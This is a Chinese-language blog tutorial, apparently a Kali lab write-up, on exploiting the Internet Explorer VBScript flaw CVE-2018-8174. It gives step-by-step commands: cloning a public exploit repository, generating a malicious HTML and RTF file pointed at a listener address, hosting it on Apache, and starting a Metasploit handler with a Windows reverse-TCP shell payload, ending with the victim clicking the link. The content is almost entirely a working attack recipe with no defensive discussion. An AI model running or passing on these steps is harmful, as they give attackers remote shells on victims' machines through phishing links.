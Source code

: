```yaml
---
title: "0DAY漏洞获取权限"
date: 2020-02-24T17:36:40+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```


利用0day漏洞CVE-2018-8174获取权限

<!--more-->



>在[电脑](https://zh.wikipedia.org/wiki/電腦)领域中，**零日漏洞**或**零时差漏洞**（英语：zero-day vulnerability、0-day vulnerability）通常是指还没有[补丁](https://zh.wikipedia.org/wiki/补丁)的[安全漏洞](https://zh.wikipedia.org/wiki/安全漏洞)，而**零日攻击**或**零时差攻击**（英语：zero-day exploit、zero-day attack）则是指利用这种漏洞进行的攻击。提供该漏洞细节或者利用[程序](https://zh.wikipedia.org/wiki/电脑程序)的人通常是该漏洞的发现者。



## 实验步骤

* CVE-2018-8173_EXP 目标是 IE 浏览器或是IE 内核的浏览器，比如360浏览器

* 安装CVE-2018-8174_EXP

  ~~~
  git clone https://github.com/iBearcat/CVE-2018-8174_EXP.git
  ~~~

* 生成恶意html 文件

  >参数
  >
  >-u URL地址恶意html 文件hack.html 的访问地址
  >
  >-o 生成文档
  >
  >-i 监听地址
  >
  >-p 监听端口

~~~
python CVE-2018-8174.py -u http://192.168.1.130/hack.html -o hack.rtf -i 192.168.1.130 -p 4444
~~~

* 开启WEB服务

~~~
mv exploit.html hack.html
cp hack.html /var/www/html
systemctl start apache2
systemctl enable apache2
~~~

* 打开MSF开启监听

~~~
msfdb run
use /exploit/multi/handler
set payload windows/shell/reverse_tcp
set LHOST 192.168.1.130
run
chcp 65001
background
sessions
~~~

* 受害者点击恶意链接 

